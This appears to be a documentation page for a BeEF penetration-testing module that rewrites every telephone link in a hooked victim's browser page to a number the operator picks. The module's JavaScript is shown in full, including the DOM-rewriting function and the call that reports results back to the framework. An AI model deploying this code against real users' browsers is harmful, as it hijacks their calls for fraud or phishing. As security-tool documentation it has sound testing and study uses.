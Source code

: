 ## Summary

* **Objective**: Replace all links to a phone number
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/link_rewrite_tel)

## Internal Working


```js

beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteTelLinks(tel_number, selector)+' telephone (tel) links rewritten to '+tel_number);

//rewriteTelLinks function

rewriteTelLinks: function(new_number, selector) {
        var count = 0;
        var re = new RegExp("tel:/?/?.*", "gi");
        var sel = (selector == null) ? 'a' : selector;

        $j(sel).each(function() {
                if ($j(this).attr('href') != null) {
                        var url = $j(this).attr('href');
                        if (url.match(re)) {
                                $j(this).attr('href', url.replace(re, "tel:"+new_number)).click(function() { return true; });
                                count++;
                        }
                }
        });

        return count;
},


```

## Feedback
